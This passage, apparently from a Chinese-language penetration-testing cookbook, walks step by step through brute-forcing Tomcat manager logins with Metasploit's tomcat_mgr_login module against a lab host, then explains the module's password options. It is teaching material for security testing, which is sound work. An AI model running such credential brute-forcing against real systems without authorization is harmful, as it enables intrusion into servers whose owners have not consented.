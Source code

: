     ```
    msfconsole
    ```

2.  启动之后，我们需要加载合适的模块，在`msf>`提示符之后键入下列代码：

    ```
    use auxiliary/scanner/http/tomcat_mgr_login 
    ```
    
3.  我们可能打算查看它使用什么参数：

    ```
    show options
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-9-1.jpg)
    
4.  现在，我们设置目标主机：

    ```
    set rhosts 192.168.56.102
    ```
    
5.  为了使它更快，但是不要太快，我们增加线程数：

    ```
    set threads 5
    ```
    
6.  同时，我们不希望让我们的服务器由于太多请求而崩溃，所以我们降低爆破的速度：

    ```
    set bruteforce_speed 3 
    ```
    
7.  剩余参数刚好适用于我们的情况，让我们执行攻击：

    ```
    run
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-9-2.jpg)
    
    在一些尝试中失败之后，我们发现了有效的密码，它使用`[+]`标记。
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-9-3.jpg)
    
### 工作原理

通常 Tomcat 使用 TCP 8080，它的管理器应用位于`/manager/html`中。这个应用使用基本的 HTTP 验证。我们刚刚使用的 Metasploit 辅助模块（`tomcat_mgr_login`）有一些值得提及的配置项：

+   `BLANK_PASSWORDS`：对每个尝试的用户添加空密码测试。

+   `PASSWORD`：如果我们打算测试多个用户的单一密码，或者添加列表中没有包含的项目，这就很实用。

+   `PASS_FILE`：用于测试的密码列表。
